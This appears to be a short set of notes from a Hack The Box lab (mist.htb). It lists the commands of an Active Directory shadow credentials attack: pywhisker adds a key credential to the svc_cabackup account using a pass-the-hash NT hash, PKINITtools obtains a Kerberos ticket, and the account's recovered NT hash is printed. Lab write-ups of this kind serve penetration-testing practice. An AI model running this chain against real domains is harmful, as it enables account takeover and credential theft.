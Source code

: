 ## clean cred
proxychains4 python3 pywhisker.py --dc-ip 192.168.100.100 -u 'svc_ca$' -H :6db5b4f0e49cf6da4c937944d58c416b -t svc_cabackup  -a clear

## add shadow
proxychains4 python3 pywhisker.py --dc-ip 192.168.100.100 -u 'svc_ca$' -H :6db5b4f0e49cf6da4c937944d58c416b -t svc_cabackup  -a add --filename '/Users/esonhugh/workspace/Hackings/hackthebox_all/mist.htb/Computer-DC01/svc_ca$/target.pfx'

## get tgt
proxychains4 gettgtpkinit.py "mist.htb"/'svc_cabackup' 'ca_TGT.ccache' -dc-ip 192.168.100.100  -cert-pem  ./target.pfx_cert.pem -key-pem target.pfx_priv.pem 

## get nt hash
proxychains4 getnthash.py  -dc-ip 192.168.100.100 -debug mist.htb/'svc_cabackup' -key c490a6ebb7cd13dffe5a8423bb4fd2d8081bce92c1eead6d4b155fecc5db3d9c

## Recoverd NT hash

> c9872f1bc10bdd522c12fc2ac9041b64
